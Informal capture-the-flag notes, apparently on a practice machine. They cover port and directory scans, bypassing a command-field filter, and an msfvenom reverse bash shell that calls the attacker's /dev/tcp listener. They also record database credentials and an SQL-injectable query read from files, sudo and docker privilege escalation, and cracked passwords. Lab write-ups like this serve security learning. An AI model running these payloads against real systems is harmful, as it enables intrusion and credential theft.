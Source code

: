 source-code <!--made by vipul mirajkar thevipulm.appspot.com-->
	<script src="js/all.js"></script> # dir maby


paths:


ports:
	21/tcp open  ftp     vsftpd 3.0.3 | ftp-anon: Anonymous FTP login allowed (FTP code 230)
	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))


users:
	Anurodh
	Apaar


test:
*   /contact
*   /images               (Status: 301) [Size: 315] [--> http://10.10.138.150/images/]
	/css                  (Status: 301) [Size: 312] [--> http://10.10.138.150/css/]
	/js                   (Status: 301) [Size: 311] [--> http://10.10.138.150/js/]
	/fonts                (Status: 301) [Size: 314] [--> http://10.10.138.150/fonts/]
*   /secret               (Status: 301) [Size: 315] [--> http://10.10.138.150/secret/]
		has text field [command] with button [execute] ok seems like hacker honeypot, they kno
		<input id="comm" type="text" name="command" placeholder="Command"> # id field seem peculiar mby find user or try admin
		will try /..././.../ to evade filtering on /secret,
		bypassing filter ezpez ls can be obfuscated like llss
	User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
	response has 38 words if hack page shows up and -fs size 566 for nothing on guy page
	how to run helpline.sh /home/apaar/.helpline.sh

*   try ftp anon login, gather info. -> anonymous:anonymous	creds, note.txt seems thats only thing in ftp:
	Anurodh told me that there is some filtering on strings being put in the command -- Apaar


What i learned:
great effort with creative ideas on attempts to upload reverse shell via command field.
Ideally next time find payloadsallthethings and enumerate the machine automatically for reverse shell utilizing commands on UNIX.
Additionally failed to realize one important thing regarding command field, after enumerating with what commands will work and not trigger defense and looking at the output.
What reamined after filtering out by size and words to discard commands that tirgger defense or show no output, some commands have a patter on pwd;ls where this format bypasses
the defese.
Using that formmat would allow you to enumerate further.
i thinks it was a nice try to utilize base64 to run commands that aren't allowed, attempt to achieve a shell via echo into the one shell file that exits in home dir and also wget method.

Okay trying again:
Since I have rce sorta via that command box, generating payload via msf venom might yield a revsh.

msfvenom -p cmd/unix/reverse_bash lhost=10.9.163.154 lport=4444 -f raw > shell.sh
bash -c '0<&20-;exec 20<>/dev/tcp/10.9.163.154/4444;sh <&20 >&20 2>&20'

Okay payload generated now just need to run listener, and run something like pwd;$payload and life is good.
it works, got a smol shell

cat /etc/passwd | grep '/bash'

root:x:0:0:root:/root:/bin/bash
aurick:x:1000:1000:Anurodh:/home/aurick:/bin/bash
apaar:x:1001:1001:,,,:/home/apaar:/bin/bash
anurodh:x:1002:1002:,,,:/home/anurodh:/bin/bash

www-data@ubuntu:/var/www/files$ cat index.php
cat index.php
<html>
<body>
<?php
        if(isset($_POST['submit']))
        {
                $username = $_POST['username'];
                $password = $_POST['password'];
                ob_start();
                session_start();
                try
                {
                        $con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");
                        $con->setAttribute(PDO::ATTR_ERRMODE,PDO::ERRMODE_WARNING);
                }
                catch(PDOException $e)
                {
                        exit("Connection failed ". $e->getMessage());
                }
                require_once("account.php");
                $account = new Account($con);
                $success = $account->login($username,$password);
                if($success)
                {
                        header("Location: hacker.php");
                }
www-data@ubuntu:/var/www/files$ cat account.php
cat account.php
<?php

class Account
{
        public function __construct($con)
        {
                $this->con = $con;
        }
        public function login($un,$pw)
        {
                $pw = hash("md5",$pw);
                $query = $this->con->prepare("SELECT * FROM users WHERE username='$un' AND password='$pw'");
                $query->execute();
                if($query->rowCount() >= 1)
                {
                        return true;
                }?>
                <h1 style="color:red";>Invalid username or password</h1>

www-data@ubuntu:/home/apaar$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
www-data@ubuntu:/home/apaar$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:/home/apaar$ sudo -u apaar /home/apaar/.helpline.sh
sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: 

Hello user! I am ,  Please enter your message: id
id
uid=1001(apaar) gid=1001(apaar) groups=1001(apaar)
Thank you for your precious time!
www-data@ubuntu:/home/apaar$ 

The privilege escalation method:

What I learned: for the love of god interpret the sudo -l output properly.
	Turns out you can run commands as other users which I assumed in bold that I will need the users password because security duh lol.

Interesting one line bash script if you can run scripts with root, to simulate a root shell.
bash "#\!/bin/bash\n\"run=true; while \$run; do; read -p \"root~$ \" r; [ \"$r\" == \"exit\" ] && run=false; $r; done\""

ended up using non-one-line version of the bash root emulator.
got it on the target using the existing shell script and wget.
interestingly su root on my sys using my script works and bypasses the password but on target machine i get nothing >:C

Do more steganography.
Cracking zip archives via zip2john archi.zip > archi.john --> john --wordlist=/usr/share... archi.john


Anurodh:IWQwbnRLbjB3bVlwQHNzdzByZA==
Anurdoh:!d0ntKn0wmYp@ssw0rd
ssh login

id command shows some docker privs we could use to gtfobins on
./docker run -v /:/mnt --rm -it alpine chroot /mnt sh
